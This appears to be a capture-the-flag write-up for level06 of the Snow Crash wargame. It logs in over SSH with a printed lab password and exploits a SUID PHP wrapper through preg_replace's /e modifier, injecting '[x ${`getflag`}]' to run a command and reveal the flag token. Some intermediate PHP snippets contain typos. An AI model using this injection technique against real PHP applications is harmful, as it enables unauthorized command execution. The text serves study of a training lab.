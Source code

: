 # Level06

Login as `level06`

```bash
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level06
level06@192.168.1.64's password: viuaaale9huek52boumoomioc
```

In the home there are 2 files, a `php script` and a `SUID executable`

```bash
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

After running it and digging a bit deeper thorugh the executable with `hexdump` , `file` and `strings` we confirm that the executable executes the php code and this one prints the content of a file passed as parameter:

```bash
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
level06@SnowCrash:~$ echo 'Hello World!' > /tmp/hello
level06@SnowCrash:~$ ./level06 /tmp/hello
Hello World!
```

`file_get_contents()` reads the entire file into a string.

There is a well known [exploit](https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4) wiht php in `preg_replace` with /e

This breach allows to evaluate a part of the string given as parameter so our string will be considered as a php string.

In PHP, we can use the output of a function in a string by using some brackets:

```php
{${shell_exec(get_flag)}}
```

The difficulty is to make the string match the `regex` in the preg_replace call:

```php
reg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a)
```

regex -> `(\[x (.*)\])`. To match the regex, the string must start by `[x` and end with `]`:

```php
[x ${`get_flag`)}]
```

```bash
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/flag06
level06@SnowCrash:~$ ./level06 /tmp/flag06
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

So the flag is: `wiok45aaoguiboiki2tuin6ub`
